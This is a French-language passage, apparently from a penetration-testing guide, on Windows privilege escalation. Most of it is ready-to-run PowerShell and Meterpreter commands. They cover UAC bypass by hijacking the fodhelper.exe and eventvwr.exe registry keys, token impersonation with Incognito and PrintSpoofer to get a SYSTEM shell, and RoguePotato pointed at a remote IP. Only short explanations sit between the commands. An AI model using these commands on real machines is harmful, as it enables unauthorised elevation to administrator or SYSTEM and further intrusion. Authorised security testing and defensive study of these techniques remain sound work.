 ##### Technique Fodhelper

```powershell
# Créer une clé de registre malveillante
New-Item -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(Default)" -Value "cmd.exe /c powershell.exe" -Force

# Déclencher l'exécution
Start-Process "C:\Windows\System32\fodhelper.exe"
```

Cette technique exploite le fait que fodhelper.exe est un binaire qui s'exécute avec des privilèges élevés et recherche des clés de registre dans HKCU.

##### Technique Eventvwr

```powershell
# Créer une clé de registre malveillante
New-Item -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "(Default)" -Value "cmd.exe /c powershell.exe" -Force

# Déclencher l'exécution
Start-Process "C:\Windows\System32\eventvwr.exe"
```

#### Usurpation de jeton (Token Impersonation)

L'usurpation de jeton exploite les privilèges SeImpersonatePrivilege ou SeAssignPrimaryTokenPrivilege pour obtenir un jeton SYSTEM.

##### Technique Incognito

```powershell
# Dans une session Meterpreter
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
```

##### Technique PrintSpoofer

```powershell
# Télécharger et exécuter PrintSpoofer
.\PrintSpoofer.exe -i -c cmd
```

PrintSpoofer exploite le service Spooler d'impression pour obtenir un shell SYSTEM.

##### Technique RoguePotato/JuicyPotato

```powershell
# Exécuter RoguePotato
.\RoguePotato.exe -r 10.10.10.10 -e "cmd.exe /c whoami > C:\Users\Public\whoami.txt" -l 9999
```
